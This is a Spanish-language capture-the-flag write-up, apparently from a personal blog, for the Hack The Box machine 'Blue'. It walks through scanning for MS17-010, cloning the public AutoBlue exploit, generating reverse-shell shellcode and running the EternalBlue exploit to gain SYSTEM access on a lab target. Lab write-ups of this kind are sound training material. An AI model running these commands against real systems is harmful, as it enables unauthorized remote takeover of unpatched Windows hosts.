 ```yaml
---
layout: single
title: Writeup HTB - Maquina Blue
comments: true
excerpt: "La maquina Blue es una masquina windows - Easy, encontramos una maquina con una vulnerabilidad muy conocida el popular ms17-010, para explotar dicha vulnerabilidad haremos uso de un exploit del repositorio AutoBlue, ejecutando dicho exploit podemos ejecutar comandos en el servidor como nt authority system."
date: 2022-02-03
classes: wide
header:
  teaser: /assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - OSCP  
  - Hacking
  - Windows
  - Easy
---
```


# Blue

<p align="center">
<img src="/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled.png">
</p>

## Resumen

<div style="text-align: justify">
La maquina Blue es una masquina windows - Easy, encontramos una maquina con una vulnerabilidad muy conocida el popular ms17-010, para explotar dicha vulnerabilidad haremos uso de un exploit del repositorio AutoBlue, ejecutando dicho exploit podemos ejecutar comandos en el servidor como nt authority system.
</div>

## Scan Nmap

Hacemos un escaneo simple a nuestra maquina

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%201.png)

podemos ver que es un **Windows 7 Professional 7601 Service Pack 1 microsoft-ds**  y entonces tambien notamos que tenemos el puerto 445. Partiendo de esto lo primero que podriamos probar son los scripts de nmap para ver si esta maquina tiene una vulnerabilidad conocida. Asi pues vemos que nmap nos arroja que existe un vulnerabilidad con CVE-2017-0143, que es el popular ms17-010

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%202.png)

para explotar dicha vulnerabilidad, buscamos un exploit del siguiente repositorio

[GitHub - 3ndG4me/AutoBlue-MS17-010: This is just an semi-automated fully working, no-bs, non-metasploit version of the public exploit code for MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

descargamos el repositorio e instalamos todo lo nesecario para hacerlo funcionar de la siguiente manera

```bash
Blue # ❯ git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
Blue # ❯ cd AutoBlue-MS17-010
AutoBlue-MS17-010 # ❯ pip install -r requirements.txt
```

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%203.png)

podemos usar el checker para ver si la maquina victima se encuentra parchado o no dicha vulnerabilidad

```bash
AutoBlue-MS17-010 # ❯ python eternal_checker.py 10.129.161.33
```

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%204.png)

el siguiente paso se generar unas shellcode de la siguiente manera

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%205.png)

al generar ingresamos nuestra direccion IP y los puertos que elegiremos para se conecten a una reverse shell

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%206.png)

a veces la herramienta no genera el sc_all.bin, asi que toca probar con sc_x86.bin y sc_x64.bin, asi de esta manera obtenemos una reverse shell con permisos de nt authority\system

```bash
Blue # ❯ python3 eternalblue_exploit7.py 10.129.161.39 shellcode/sc_x64.bin
```

![Untitled](/assets/images/2022-02-03-writeup-maquina-htb-blue/Untitled%207.png)

gracias por tomarte el tiempo de leer este writeup, nos vemos AbelJM.